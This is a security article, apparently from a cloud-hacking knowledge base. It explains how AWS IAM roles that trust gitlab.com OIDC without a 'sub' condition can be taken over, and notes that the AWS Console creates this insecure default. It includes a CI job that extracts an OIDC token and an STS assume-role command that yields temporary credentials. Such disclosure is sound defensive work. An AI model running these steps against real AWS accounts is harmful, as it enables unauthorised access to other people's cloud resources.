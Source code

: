 ```yaml
---
author_name: Nick Frichette
title: "Exploiting Misconfigured GitLab OIDC AWS IAM Roles"
description: A step-by-step explanation on how to exploit AWS IAM roles with misconfigured trust policies using GitLab OIDC.
---
```


[OpenID Connect](https://openid.net/developers/how-connect-works/) (OIDC) is a common technology used to authorize services outside of AWS to assume IAM roles. As has been shown many times in the past (examples: [one](https://securitylabs.datadoghq.com/articles/exploring-github-to-aws-keyless-authentication-flaws/), [two](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/), and [three](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess)), these roles can be misconfigured, permitting anyone in the world the ability to assume a vulnerable role.

In this article, we will explain a potential misconfiguration of AWS IAM roles when using GitLab OIDC, walk through how to exploit them step-by-step, and explain how the AWS Console causes this misconfiguration by default.

!!! warning
    In this article, we are only covering misconfigured roles with a trust relationship to the [gitlab.com](https://gitlab.com/) SaaS offering. In theory this attack could be performed on a self-hosted version of GitLab as well, however we have not tried it. If you have, feel free to open a [pull request](https://github.com/Hacking-the-Cloud/hackingthe.cloud/pulls) and update this article as needed.

## IAM role misconfiguration using GitLab OIDC

According to the GitLab [documentation](https://docs.gitlab.com/ee/ci/cloud_services/aws/), AWS IAM roles that are using OIDC to authenticate should have a trust policy that looks like the following:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "gitlab.com:sub": "project_path:mygroup/myproject:ref_type:branch:ref:main"
        }
      }
    }
  ]
}
```

There are several important elements of this trust policy including:

* `Principal.Federated`: This is the identity provider that authorizes the role assumption. It is important to note that while each AWS account will have its own identity provider, this is simply a [stand-in](https://docs.gitlab.com/ee/ci/cloud_services/aws/#add-the-identity-provider) for the global `gitlab.com` provider. 
* `Action`: This is the specific type of assume role being used. In this case it is [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html).
* `gitlab.com:sub`: This is an optional condition which restricts the group, project, or branch which is permitted to assume the role.

The word "optional" from the previous sentence is why this attack is possible. There is no requirement to include a condition which restricts which specific group or project is permitted to assume a role. As a result of this __anyone with access to gitlab.com could assume a role with this misconfiguration__.

## How to exploit this misconfiguration

In this situation we will assume a role that has the following trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Principal": {
                "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
            },
            "Condition": {
                "StringEquals": {
                    "gitlab.com:aud": [
                        "https://gitlab.com"
                    ]
                }
            }
        }
    ]
}
```

!!! Note
    In this example there is no condition on the `sub` field, restricting who is permitted to assume the role. This is the default trust policy that is set when creating a role through the AWS Console. More on this [later](#how-the-aws-console-causes-this-misconfiguration-by-default). 

To exploit this misconfigured role, we must generate a JWT that can be used to authorize the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) invocation. To do this, create an account on gitlab.com or use an existing one.

Next, create a project, and in this newly created project, create a file called `.gitlab-ci.yml`. This is the configuration file for GitLab CI. Add the following content to the `.gitlab-ci.yml` file:

```yml
assume role:
  id_tokens:
    GITLAB_OIDC_TOKEN:
      aud: https://gitlab.com
  script:
    - echo ${GITLAB_OIDC_TOKEN} | base64 -w 0
```

!!! warning
    The `base64 -w 0` is required because GitLab will mask the output if you simply echo the `GITLAB_OIDC_TOKEN`. 

After adding this content to the `.gitlab-ci.yml` file, navigate to "Build > Jobs" on the left side, and click on the most recent CI job. Here you should see the OIDC token that we base64 encoded.

![gitlab.com CI Job view](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/gitlab.com.example.png)

From here, decode the base64 encoded blob (`base64 -d`) to get the original `GITLAB_OIDC_TOKEN`. This is the JWT you will use in the following [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) call.

!!! Note
    You can optionally decode this value to see that the issuer is `https://gitlab.com`. This is what is being validated in the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) and because there is no condition on the `sub` field, we are able to assume the misconfigured role.

```bash
nick.frichette@host ~ % aws sts assume-role-with-web-identity \
--role-arn <ARN of misconfigured role>
--role-session-name <session name of your choosing>
--web-identity-token  <JWT from previous step>
{
    "Credentials": {
        "AccessKeyId": "ASIAEXAMPLE123EXAMPL",
        "SecretAccessKey": "EXAMPLE123EXAMPLE123EXAMPLE123EXAMPLE123"
        "SessionToken": "[..snip..]",
        "Expiration": "2024-09-01T23:20:01+00:00"
    },
    "SubjectFromWebIdentityToken": "project_path:secres/runner-test:ref_type:branch:ref:main",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAEXAMPLE123EXAMPL:blah",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vuln-gitlab-runner-role/blah"
    },
    "Provider": "arn:aws:iam::111111111111:oidc-provider/gitlab.com",
    "Audience": "https://gitlab.com"
}
```

You have successfully used a JWT generated from gitlab.com to assume a misconfigured IAM role!

## How the AWS console causes this misconfiguration by default

If you've been following along, you may wonder, "Why would anyone make this misconfiguration? The GitLab documentation provides an example that is secure". Misconfigurations occur for a wide variety of reasons and in a wide variety of scenarios, however this one may have a more clear cut reason. 

When creating IAM roles in the AWS console, developers can choose a `trusted entity` for `Web identity`. This will pre-populate the trust policy of the IAM role and generally makes things easier. However, when a developer chooses `Web identity` and selects `gitlab.com` as the identity provider, there is no requirement for a condition on the `sub` field. __Using the AWS console to create the IAM role will generate a vulnerable role by defualt__.

![AWS Console 1](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_1.png)

![AWS Console 2](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_2.png)

Compare this behavior to [GitHub Actions](https://www.wiz.io/blog/a-security-community-success-story-of-mitigating-a-misconfiguration) or [Terraform Cloud](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess). In both of these situations, AWS made changes to the AWS Console to require additional fields to mitigate this type of attack.